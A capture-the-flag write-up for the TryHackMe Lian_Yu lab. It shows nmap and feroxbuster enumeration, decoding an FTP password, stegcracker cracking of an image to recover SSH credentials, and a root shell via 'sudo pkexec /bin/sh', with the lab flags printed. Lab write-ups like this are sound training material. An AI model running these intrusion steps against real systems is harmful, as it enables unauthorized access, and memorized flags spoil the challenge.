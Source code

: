 ## A. Enumeration

### A. 1 Nmap

Nmap found the following info, only short details mentioned here, nmap output file saved in /THM/Liam_Yu

```
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp  open  http    Apache httpd
111/tcp open  rpcbind 2-4 (RPC #100000)

```

### A.2 HTTP



1. Feroxbuster with small wordlist gave us
```
301        7l       20w      235c http://10.10.251.57/island
301        7l       20w      240c http://10.10.251.57/island/2100

```

found a codeword in source code of /island

```
vigilante
```

2. nothing in the common wordlist

With nothing found i used  a writeup for the hint and understood that the .ticket was an extension

```
─[glack@parrot]─[~/Desktop/THM/Lian_Yu]
└──╼ $feroxbuster -u http://10.10.251.57/island/2100/ -w /usr/share/wordlists/small.txt -n -x ticket
```

We found a new url

```
200        6l       11w       71c http://10.10.251.57/island/2100/green_arrow.ticket
```

here we find a string
```
RTy8yhBQdscX
```

Decoded the above string using the cyberchef URL from base52

```
!#th3h00d
```

as per the questions from THM, this is the ftp password and the code can be used as username

### FTP

username - vigilante
pass - !#th3h00d

I found these files in the ftp data sharing

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
```

Here i checked for stegnography using

steghide, hexedit, magic bytes, binwalk but found nothing so using the writeup again


## B. Shell

found out about another tool we can use in stegnography and made a note of it: stegcracker

```
stegcracker
```


```
┌─[glack@parrot]─[~/Desktop/THM/Lian_Yu]
└──╼ $[[stegcracker]] aa.jpg /usr/share/wordlists/rockyou.txt 

```

```
ttacking file 'aa.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: password
Tried 68 passwords
Your file has been written to: aa.jpg.out
password
```

The password was: password

```
─[✗]─[glack@parrot]─[~/Desktop/THM/Lian_Yu]
└──╼ $cat aa.jpg.out
```

this was an unreadable file so i found out the filetype using

```
─[glack@parrot]─[~/Desktop/THM/Lian_Yu]
└──╼ $file aa.jpg.out

aa.jpg.out: Zip archive data, at least v2.0 to extract

```

extracted the file using
```
─[glack@parrot]─[~/Desktop/THM/Lian_Yu]
└──╼ $unzip aa.jpg.out
Archive:  aa.jpg.out
  inflating: passwd.txt              
  inflating: shado
```

```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/Lian_Yu]
└──╼ $cat shado 
M3tahuman
```

maybe this is the password for the other user : slade.

It worked, i was able to ssh login into target machine using

username: slade
pass: M3tahuman

easily found the user flag

```
slade@LianYu:~$ cat user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak
```

## C. Priv Esc

Gaining root shell was also easy,

```
User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ sudo pkexec /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root) 

```

```
# cat /root/root.txt
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
									      --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```